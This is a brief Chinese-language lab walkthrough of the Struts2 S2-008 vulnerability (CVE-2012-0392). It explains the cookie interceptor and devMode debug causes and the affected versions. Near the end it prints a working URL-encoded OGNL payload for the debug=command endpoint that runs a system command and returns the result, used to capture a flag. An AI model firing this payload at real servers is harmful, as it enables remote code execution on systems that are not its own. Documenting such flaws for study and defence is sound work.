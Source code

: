 # Struts2-008（CVE-2012-0392）

## 漏洞概述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

## 漏洞成因：

主要利用对传入参数没有严格限制，导致多个地方可以执行恶意代码。

第一种情况其实就是 S2-007，在异常处理时的 OGNL 执行
第二种的 cookie 的方式，虽然在 struts2 没有对恶意代码进行限制，但是java的 webserver（Tomcat），对 cookie 的名称有较多限制，在传入 struts2 之前就被处理，从而较为鸡肋
第三种需要开启 devModedebug 模式

例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式.

影响版本：Struts 2.1.0 - Struts 2.3.1

启动靶场。

![1](./1.png)

利用 POC 拿到 Flag

`/devmode.action?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%29`

![2](./2.png)
